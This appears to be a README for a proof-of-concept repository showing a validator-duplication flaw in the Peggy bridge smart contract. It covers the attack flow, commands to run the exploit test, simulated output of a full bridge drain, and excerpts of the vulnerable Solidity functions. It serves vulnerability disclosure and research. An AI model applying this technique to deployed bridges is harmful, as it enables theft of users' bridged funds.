

# Peggy Bridge Validator Duplication Vulnerability PoC

This project demonstrates a critical vulnerability in the Peggy bridge smart contract that allows an attacker to bypass validator consensus requirements through validator address duplication, leading to complete drainage of bridge funds.

## Vulnerability Overview

**Severity:** Critical  
**Impact:** Complete loss of all bridged assets  
**Root Cause:** Lack of validator address uniqueness validation in `updateValset` and power double-counting in `checkValidatorSignatures`

The Peggy bridge contract fails to validate that validator addresses in a new validator set are unique. An attacker can exploit this by proposing a validator set containing their own address multiple times, then use a single signature repeatedly to amplify their voting power beyond the required threshold.

## Technical Details

### Core Vulnerability

The vulnerability exists in two functions:

1. **`updateValset`** - Accepts validator sets without checking for duplicate addresses
2. **`checkValidatorSignatures`** - Counts voting power for each signature position independently, allowing the same validator's power to be counted multiple times

### Attack Flow

1. **Malicious Validator Set Injection:** Attacker calls `updateValset` with a validator set where their address appears multiple times:
   ```
   validators: [AttackerAddress, AttackerAddress, AttackerAddress]
   powers:     [34%, 33%, 33%]
   ```

2. **Power Amplification:** Once the malicious set is active, attacker calls `submitBatch` providing the same signature three times. The contract incorrectly calculates their power as 34% + 33% + 33% = 100%, far exceeding the 67% threshold.

3. **Fund Drainage:** With amplified voting power, the attacker can unilaterally approve any transaction batch, draining all bridge funds.

## Prerequisites

- [Foundry](https://getfoundry.sh/) installed
- Git

## Setup and Execution

### Clone and Setup

```bash
git clone https://github.com/Ani07-05/peggy-poc
cd peggy-poc
forge install
```

### Run the Exploit

```bash
forge test --match-test test_exploitValidatorDuplication -vvv
```

### Expected Output

The test demonstrates a complete bridge drain:

```
--- Initial State ---
Peggy Bridge Balance: 1,000,000 DUMMY tokens
Attacker Balance: 0 DUMMY tokens

--- Attack Step 1: Proposing Malicious Valset ---
Success: Malicious validator set has been approved and is now active.

--- Attack Step 2: Draining Funds with Amplified Power ---
Success: submitBatch executed with a single signature.

--- Final State ---
Peggy Bridge Balance: 0 DUMMY tokens
Attacker Balance: 1,000,000 DUMMY tokens

Vulnerability Confirmed: All funds stolen.
```

## Vulnerability Details

### Affected Functions

**`updateValset` Function:**
```solidity
function updateValset(
    ValsetArgs calldata _newValset,
    // ...
) external whenNotPaused {
    // CRITICAL FLAW: No uniqueness check for validator addresses
    // in _newValset.validators array
    
    bytes32 newCheckpoint = makeCheckpoint(_newValset, state_peggyId);
    checkValidatorSignatures(/* ... */);
    
    // Malicious checkpoint gets saved
    state_lastValsetCheckpoint = newCheckpoint;
}
```

**`checkValidatorSignatures` Function:**
```solidity
function checkValidatorSignatures(
    address[] memory _currentValidators,
    uint256[] memory _currentPowers,
    // ...
) private pure {
    uint256 cumulativePower = 0;
    for (uint256 i = 0; i < _currentValidators.length; i++) {
        // Signature verification passes for duplicate validators
        require(verifySig(/* ... */), "Validator signature does not match.");
        
        // CRITICAL FLAW: Same validator's power counted multiple times
        cumulativePower = cumulativePower + _currentPowers[i];
    }
}
```

### Impact Assessment

- **Complete Fund Loss:** Attacker gains full control over bridge assets
- **Protocol Insolvency:** Bridge becomes unable to honor withdrawal requests  
- **Trust Destruction:** Permanent damage to protocol reputation
- **Operational Shutdown:** Bridge functionality becomes permanently compromised

## Test Details

The proof of concept test (`test_exploitValidatorDuplication`) demonstrates:

1. Initial bridge setup with 1,000,000 test tokens
2. Honest validator set with 3 validators and 67% power threshold
3. Malicious validator set proposal with duplicated attacker address
4. Successful validation bypass using single signature
5. Complete fund drainage to attacker wallet

## Verification

The vulnerability can be verified by:

1. Examining the test output showing 100% fund transfer
2. Checking that only a single validator signature was used
3. Confirming the power threshold bypass mechanism
4. Validating the permanent nature of the exploit




## Disclaimer

This code is provided for educational and security research purposes only. Do not use this exploit against any production systems. The authors are not responsible for any misuse of this information.

